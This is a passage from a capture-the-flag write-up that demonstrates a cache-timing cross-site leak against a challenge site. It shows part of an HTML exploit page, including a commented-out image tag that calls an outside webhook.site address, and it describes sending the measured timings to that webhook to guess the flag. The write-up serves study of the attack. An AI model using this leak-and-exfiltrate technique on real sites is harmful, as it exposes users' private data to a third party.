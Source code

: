 ```html
            }
        </script>
    </head>
    <body>
        <!-- Changed hash - non-flag string -->
        <iframe id="ifr" src="https://chal.yana.wtf/#XXXXX"></iframe><br/>
        <script>
            runTest("XXXXX");
        </script>
        <!-- No need anymore -->
        <!-- <img src="https://webhook.site/8f324ab5-a556-4328-89bc-e9d606a390ba/bleh.png"> -->
    </body>
</html>
```
### Summary
* Waits for the iframe to load
* Get time (start)
* Fetch the **y.png** image using "force-cache" option.
* Get time again (end) and calculate the time elapsed.
* Send the timing info to our webhook endpoint.

After sending to the bot, we receive the answer: 76 ms.

![cache non-flag 1](img/cache_timing_nonflag_1.png)

When trying a few more times, I perceive there is a variation, but in most of the rounds, the loading time is between **30-50 ms**.

Let's try the same with the known start of the flag: **uiuctf{**
